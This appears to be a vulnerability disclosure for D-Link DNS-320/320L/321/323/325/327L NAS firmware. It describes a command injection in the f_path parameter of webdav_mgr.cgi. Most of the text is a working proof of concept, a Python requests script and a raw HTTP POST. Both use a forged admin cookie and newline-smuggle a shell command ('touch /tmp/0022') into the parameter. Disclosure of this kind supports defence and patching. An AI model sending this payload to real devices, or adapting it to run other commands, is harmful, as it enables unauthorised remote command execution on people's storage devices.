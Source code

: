# Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in webdav_mgr function of the file /cgi-bin/webdav_mgr.cgi.  The variable `f_path`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 17 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723738184599-d124d55a-a400-45cf-8260-9e9c763f5863.png#averageHue=%23fafaf5&clientId=uca8b19a4-e5dd-4&from=paste&height=192&id=uNHBy&originHeight=192&originWidth=885&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29368&status=done&style=none&taskId=u887fa7b2-346a-4c8d-b6e5-77d61769669&title=&width=885)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/webdav_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=Webdav_Account_Info&f_path=%0atouch%09/tmp/0022%0a"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/webdav_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
X-Requested-With: XMLHttpRequest
Content-Length: 54
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=Webdav_Account_Info&f_path=%0atouch%09/tmp/0022%0a
```


